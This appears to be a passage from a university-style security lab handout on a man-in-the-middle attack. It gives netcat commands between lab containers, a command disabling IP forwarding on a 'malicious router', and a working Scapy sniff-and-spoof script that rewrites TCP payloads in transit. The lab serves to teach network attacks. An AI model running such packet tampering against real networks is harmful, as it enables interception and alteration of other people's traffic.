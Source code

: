 ```
On the destination container 192.168.60.5, start the netcat server:
# nc -lp 9090
On the victim container, connect to the server:
# nc 192.168.60.5 9090

```

Once the connection is made, you can type messages on the victim machine. Each line of messages will
be put into a TCP packet sent to the destination, which simply displays the message. Your task is to replace
every occurrence of your first name in the message with a sequence of A’s. The length of the sequence
should be the same as that of your first name, or you will mess up the TCP sequence number, and hence the
entire TCP connection. You need to use your real first name, so we know the work is done by you.

**Disabling IP Forwarding**. In the setup, the malicious router’s IP forwarding is enabled, so it does function
like a router and forward packets for others. When we launch the MITM attack, we have to stop forwarding
IP packets; instead, we will intercept the packet, make a change, and send out a new packet. To do that, we
just need to disable the IP forwarding on the malicious router.

```
# sysctl net.ipv4.ip_forward=0
```

**MITM code**. Once the IP forwarding is disabled, our program needs to take over the role of packet forwarding
from the victim to the target, of course after making changes to the packets. Since the packet’s
destination is not for us, the kernel will not give the packet to us; it will simply drops the packet. However,
if our program is a sniffer program, we will get the packet from the kernel. Therefore, we will use the sniffand-
spoof technique to implement this MITM attack. In the following, we provide a sample sniff-and-spoof
program, which captures TCP packets, makes some changes, before sending them out. You can find the
code from the lab setup files.

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)
    if pkt[TCP].payload:
        data = pkt[TCP].payload.load
        print("*** %s, length: %d" % (data, len(data)))

        # Replace a pattern
        newdata = data.replace(b’seedlabs’, b’AAAAAAAA’)

        send(newpkt/newdata)
    else:
        send(newpkt)
f = ’tcp’
pkt = sniff(iface=’eth0’, filter=f, prn=spoof_pkt)
```
